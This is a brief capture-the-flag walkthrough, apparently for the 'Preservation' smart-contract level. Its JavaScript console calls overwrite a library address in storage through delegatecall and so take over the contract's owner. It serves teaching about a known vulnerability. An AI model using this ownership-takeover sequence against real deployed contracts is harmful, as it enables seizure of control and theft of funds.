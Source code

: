 # Preservation

Change timeZone1Library address which store in the memory slot 1 to attack contract address.

```javascript
await contract.setFirstTime(attackContractAddress)
```

Check the address - now the address should be attack contract.

```javascript
await contract.timeZone1Library()
```

call to execute attack contract

```javascript
await contract.setFirstTime("any")
```

check the owner - now the owner should be the attack contract deployer.

```javascript
await contract.owner()
```
